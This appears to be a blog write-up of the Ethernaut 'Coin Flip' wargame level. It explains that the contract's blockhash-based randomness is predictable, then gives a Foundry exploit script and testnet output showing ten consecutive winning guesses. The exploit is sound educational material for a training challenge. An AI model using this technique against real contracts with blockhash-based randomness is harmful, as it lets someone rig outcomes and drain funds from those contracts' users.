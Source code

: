 ```yaml
---
layout: post
title: "[Ethernaut] Coin Flip"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Using to `blackhash` value to generate random numbers.

Since this is accessible not only to the contract but also to external users, it becomes predictable.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/CoinFlip.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip coinflip_) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip_.flip(side);
    }
}

contract CoinFlipSol is Script {
    CoinFlip public coinflip_ = CoinFlip(0x97Cf73B713944bD171aEd799FEDdED4BC5Fd3765);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex(coinflip_);
        console.log("Win counts: ", coinflip_.consecutiveWins());
        
        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/CoinFlipSol.sol --tc CoinFlipSol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Win counts:  10

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002187102 gwei

Estimated total gas used for script: 123189

Estimated amount required: 0.000000269426908278 ETH

==========================

##### holesky
✅  [Success] Hash: 0x0a5c9241d43f66408948fff9f14bad881a6f1717557f05d693967085b33fc4c9
Contract Address: 0x0BBe439AF9BC57d2358965e1d78B2831290038F9
Block: 3672028
Paid: 0.000000207251214534 ETH (94761 gas * 0.002187094 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000207251214534 ETH (94761 gas * avg 0.002187094 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Coin_Flip/complete.png)

![Image win]({{site.url}}/images/2025-04-18-Coin_Flip/win.png)